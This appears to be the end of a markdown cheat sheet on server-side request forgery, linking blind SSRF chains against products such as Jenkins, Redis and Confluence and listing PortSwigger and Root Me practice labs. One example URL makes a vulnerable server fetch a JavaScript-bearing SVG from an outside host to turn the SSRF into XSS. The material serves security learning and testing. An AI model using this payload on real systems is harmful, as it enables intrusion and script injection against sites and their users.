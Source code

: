 > When exploiting server-side request forgery, we can often find ourselves in a position where the response cannot be read. 

Use an SSRF chain to gain an Out-of-Band output: [assetnote/blind-ssrf-chains](https://github.com/assetnote/blind-ssrf-chains)

**Possible via HTTP(s)**

- [Elasticsearch](https://github.com/assetnote/blind-ssrf-chains#elasticsearch)
- [Weblogic](https://github.com/assetnote/blind-ssrf-chains#weblogic)
- [Hashicorp Consul](https://github.com/assetnote/blind-ssrf-chains#consul)
- [Shellshock](https://github.com/assetnote/blind-ssrf-chains#shellshock)
- [Apache Druid](https://github.com/assetnote/blind-ssrf-chains#druid)
- [Apache Solr](https://github.com/assetnote/blind-ssrf-chains#solr)
- [PeopleSoft](https://github.com/assetnote/blind-ssrf-chains#peoplesoft)
- [Apache Struts](https://github.com/assetnote/blind-ssrf-chains#struts)
- [JBoss](https://github.com/assetnote/blind-ssrf-chains#jboss)
- [Confluence](https://github.com/assetnote/blind-ssrf-chains#confluence)
- [Jira](https://github.com/assetnote/blind-ssrf-chains#jira)
- [Other Atlassian Products](https://github.com/assetnote/blind-ssrf-chains#atlassian-products)
- [OpenTSDB](https://github.com/assetnote/blind-ssrf-chains#opentsdb)
- [Jenkins](https://github.com/assetnote/blind-ssrf-chains#jenkins)
- [Hystrix Dashboard](https://github.com/assetnote/blind-ssrf-chains#hystrix)
- [W3 Total Cache](https://github.com/assetnote/blind-ssrf-chains#w3)
- [Docker](https://github.com/assetnote/blind-ssrf-chains#docker)
- [Gitlab Prometheus Redis Exporter](https://github.com/assetnote/blind-ssrf-chains#redisexporter)

**Possible via Gopher**

- [Redis](https://github.com/assetnote/blind-ssrf-chains#redis)
- [Memcache](https://github.com/assetnote/blind-ssrf-chains#memcache)
- [Apache Tomcat](https://github.com/assetnote/blind-ssrf-chains#tomcat)


## Upgrade to XSS

When the SSRF doesn't have any critical impact, the network is segmented and you can't reach other machine, the SSRF doesn't allow you to exfiltrate files from the server.

You can try to upgrade the SSRF to an XSS, by including an SVG file containing Javascript code.

```bash
https://example.com/ssrf.php?url=http://brutelogic.com.br/poc.svg
```


## Labs

* [PortSwigger - Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)
* [PortSwigger - Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
* [PortSwigger - SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)
* [PortSwigger - SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)
* [PortSwigger - SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
* [Root Me - Server Side Request Forgery](https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery)
* [Root Me - Nginx - SSRF Misconfiguration](https://www.root-me.org/en/Challenges/Web-Server/Nginx-SSRF-Misconfiguration)
